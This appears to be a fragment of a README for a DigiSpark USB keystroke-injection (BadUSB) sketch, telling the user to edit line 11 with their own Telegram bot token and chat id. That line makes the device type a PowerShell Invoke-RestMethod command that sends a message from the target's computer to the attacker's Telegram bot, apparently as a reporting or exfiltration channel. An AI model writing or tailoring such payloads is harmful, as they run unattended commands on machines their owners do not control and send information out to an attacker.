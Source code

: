 ## DigSpark 

   you need to edit line 11
   

    DigiKeyboard.print("$Response = Invoke-RestMethod -Uri 'https://api.telegram.org/bot{your-token-bot}/sendMessage?chat_id={your-id}&text=your-msg'");

**{your-token-bot}{your-id}**
add your token bot and chat id 

